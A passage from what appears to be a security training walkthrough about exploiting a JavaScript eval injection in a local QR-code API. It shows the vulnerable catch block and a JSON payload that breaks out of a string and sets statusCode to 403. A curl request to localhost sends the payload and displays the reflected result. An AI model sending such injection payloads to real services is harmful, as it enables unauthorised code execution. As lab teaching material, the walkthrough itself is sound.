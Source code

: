 ## Controlling the Response

If we review the `catch` block within the function, we see the following:

```js
try {
  // ...SNIP...
} catch (e) {
  if (e.statusCode === 403) {
    return next(e);
  } else {
    return next({
      message: "Could not generate QR code.",
      statusCode: 500,
    });
  }
}

```

As we can see, to get the `e` message displayed, we need the `statusCode` to be `403`. In our injection requests, we are closing the `throw` call at `message` and not providing any `statusCode`, which may be why we are not getting the `message` displayed to us.

So, let's try sending a basic injection request that adds `statusCode` and then commenting out the rest without injecting any additional code. The payload would be the following:

```json
{
  "text": "test message', statusCode: 403})//"
}

```

If we send a request with this payload, we do indeed get `test message` displayed back to us:

```shell
curl -s -X POST -H "Content-Type: application/json" -H "Authorization: bearer eyJhbGciOiJIUz...SNIP...1YLEvDs4SR7RHfQ" -d "{ \"text\": \"test message', statusCode: 403})//\" }" http://localhost:5000/api/service/generate

{"message":"The input \"test message"}

```

Great! Now, we need to see if we can replace the string `test message` with the output of our command.

## Injecting the Output

As we have learned throughout this module, the trial & error approach in building working payloads is not ideal and takes a lot of time to get a working payload. So, we will once again start with the source code and build our payload by modifying it. We know from the last section in the `local testing` step that the following is the `onError` string being executed by `eval`:
